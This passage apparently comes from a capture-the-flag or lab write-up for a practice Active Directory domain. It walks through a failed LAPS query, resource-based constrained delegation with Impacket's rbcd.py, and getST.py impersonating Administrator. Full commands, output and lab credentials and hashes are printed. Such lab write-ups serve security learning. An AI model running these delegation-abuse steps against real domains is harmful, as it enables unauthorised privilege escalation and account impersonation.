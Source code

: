
lets do again —laps

but laps is not configured so lets use RBDC which is always work

    ➜  Reflection nxc ldap DC01.reflection.vl -u 'Georgia.Price' -p 'DBl+5MPkpJg5id' -M laps
    SMB         10.10.129.245   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:reflection.vl) (signing:False) (SMBv1:False)
    LDAP        10.10.129.245   389    DC01             [+] reflection.vl\Georgia.Price:DBl+5MPkpJg5id 
    LAPS        10.10.129.245   389    DC01             [*] Getting LAPS Passwords
    LAPS        10.10.129.245   389    DC01             [-] No result found with attribute ms-MCS-AdmPwd or msLAPS-Password !

### RBCD

    ➜  Reflection python3 /opt/impacket/examples/rbcd.py -action write -delegate-to "WS01$" -delegate-from "MS01$" -dc-ip 10.10.129.245 "Reflection/Georgia.Price:DBl+5MPkpJg5id"
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

    [*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
    [*] Delegation rights modified successfully!
    [*] MS01$ can now impersonate users on WS01$ via S4U2Proxy
    [*] Accounts allowed to act on behalf of other identity:
    [*]     MS01$        (S-1-5-21-3375389138-1770791787-1490854311-1104)

getST

    ➜  Reflection python3 /opt/impacket/examples/getST.py -spn 'cifs/WS01.reflection.vl' -impersonate Administrator -dc-ip 10.10.129.245 'Reflection/MS01$' -hashes ':520bd3d66bdc0102e950f13e0b164073'
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

    [-] CCache file is not found. Skipping...
    [*] Getting TGT for user
    [*] Impersonating Administrator
    [*] Requesting S4U2self
    [*] Requesting S4U2Proxy
    [*] Saving ticket in Administrator@cifs_WS01.reflection.vl@REFLECTION.VL.ccache

![alt text](<../assets/images/Screenshot_2025-02-04_21_44_03.png>)
